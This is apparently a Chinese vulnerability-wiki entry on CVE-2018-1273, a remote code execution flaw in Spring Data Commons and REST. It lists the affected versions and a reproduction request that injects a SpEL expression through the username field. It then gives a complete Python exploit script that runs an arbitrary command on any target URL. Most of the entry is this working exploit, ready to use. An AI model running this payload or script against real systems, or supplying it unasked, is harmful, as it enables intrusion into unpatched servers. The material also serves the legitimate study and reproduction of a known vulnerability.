 （CVE-2018-1273）Spring Data Commons组件远程代码执行漏洞
========================================================

一、漏洞简介
------------

攻击者可以构造恶意的请求对Spring Data
REST发起攻击，包括使用基于HTTP资源的，或者其他请求基于Spring Data's
projection负载结合的，最终导致远程代码执行攻击。

二、漏洞影响
------------

Spring Data Commons 1.13 - 1.13.10(Ingalls SR10)

Spring Data REST 2.6 - 2.6.10 (Ingalls SR10)

Spring Data Commons 2.0 - 2.0.5 (Kay SR5)

Spring Data REST 3.0 - 3.0.5 (Kay SR5)

三、复现过程
------------

    POST /users?page=&size=5 HTTP/1.1
    Host: localhost:8080
    Connection: keep-alive
    Content-Length: 124
    Pragma: no-cache
    Cache-Control: no-cache
    Origin: http://localhost:8080
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Referer: http://localhost:8080/users?page=0&size=5
    Accept-Encoding: gzip, deflate, br
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

    username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=

执行`docker-compose exec spring bash`进入容器中，可见成功创建`/tmp/success`，说明命令执行成功：

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1273)SpringDataCommons组件远程代码执行漏洞/media/rId24.png)

### poc

    cve-2018-1273_cmd.py
    #!/usr/bin/python3
    #-*- coding:utf-8 -*-
    # author:zhzyker
    # from:https://github.com/zhzyker/exphub
    # telegram:t.me/zhzyker

    import requests
    import sys

    if len(sys.argv)!=3:
        print('+----------------------------------------------------------------------------+')
        print('+ DES: by zhzyker as https://github.com/zhzyker/exphub                       +')
        print('+      Spring Data Commons Remote Code Execution (No display)                +')
        print('+----------------------------------------------------------------------------+')
        print('+ USE: python3 cve-2018-1273_cmd.py <url> "<cmd>"                            +')
        print('+ EXP: python3 cve-2018-1273_cmd.py http://1.1.1.1:8080 "touch /tmp/exphub"  +')
        print('+ VER: Spring Data Commons 1.13 to 1.13.10                                   +')
        print('+      Spring Data Commons 2.0 to 2.0.5                                      +')
        print('+----------------------------------------------------------------------------+')
        sys.exit()
        
    url = sys.argv[1]
    cmd = sys.argv[2]
    vuln = url + "/users"  

    headers = {
        'Host': "localhost:8080",
        'Connection': "keep-alive",
        'Content-Length': "120",
        'Pragma': "no-cache",
        'Cache-Control': "no-cache",
        'Origin': "http://localhost:8080",
        'Upgrade-Insecure-Requests': "1",
        'Content-Type': "application/x-www-form-urlencoded",
        'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36",
        'Accept': "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8",
        'Referer': "http://localhost:8080/users?page=0&size=5",
        'Accept-Encoding': "gzip, deflate, br",
        'Accept-Language': "zh-CN,zh;q=0.9,en;q=0.8"
        }
        
    payload = "username[#this.getClass().forName('java.lang.Runtime').getRuntime().exec('%s')]=&password=&repeatedPassword=" % cmd

    try:
        r = requests.post(vuln, data=payload, headers=headers)
        if r.status_code == 500:
            print ("[+] Code executed successfully")
        else:
            print ("[-] Target Not CVE-2018-1273 Vuln, Good Luck")
    except:
        print ("[-] Target Not CVE-2018-1273 Vuln, Good Luck")
